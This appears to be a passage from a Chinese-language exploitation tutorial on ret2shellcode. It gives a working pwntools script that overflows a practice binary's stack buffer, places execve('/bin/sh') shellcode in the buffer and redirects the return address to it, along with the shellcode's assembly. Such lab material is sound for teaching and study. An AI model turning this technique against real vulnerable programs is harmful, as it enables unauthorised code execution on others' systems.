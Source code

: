 成功。

### ret2shellcode

这是另一个例子，不同之处在于栈可执行保护没有开启（编译参数 `-z execstack`）。其他和上例相同。

pwntools 提供了一些 shellcode 片段，其中就有用系统调用 `execve` 启动 `/bin/sh` 的代码。在 `ret2libc` 的 `exploit` 基础上，我们只用把返回地址修改成 `buffer` 的地址，把填充 `buffer` 的 `\x41` 换成 shellcode 即可。

```python
from pwn import gdb, shellcraft, asm
import struct

p = gdb.debug('./question32', '''
b question.c:13
continue
''')

p.send('hacker')
print(p.recv().decode())

payload = asm(shellcraft.i386.linux.sh())
payload += b'\x00' * (112-len(payload))
# %ecx, %ebx, %edi, %ebp, &buffer
stack_elem = [0xffffd1c0, 0, 0, 0, 0xffffd13c]
payload += struct.pack('<IIIII', *stack_elem)
p.send(payload)
p.interactive()
```

在调试器中观察，确认`ret`跳转到了`&buffer`，将脚本改为 `pwn.process` 即可。

![image-20220817170010162](image-20220817170010162.png)

还可以看下 `shellcraft.i386.linux.sh` 提供的代码片段长什么样。

```assembly
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    push 0x732f2f2f
    push 0x6e69622f
    mov ebx, esp
    /* push argument array ['sh\x00'] */
    /* push 'sh\x00\x00' */
    push 0x1010101
    xor dword ptr [esp], 0x1016972
    xor ecx, ecx
    push ecx /* null terminate */
    push 4
    pop ecx
    add ecx, esp
    push ecx /* 'sh\x00' */
```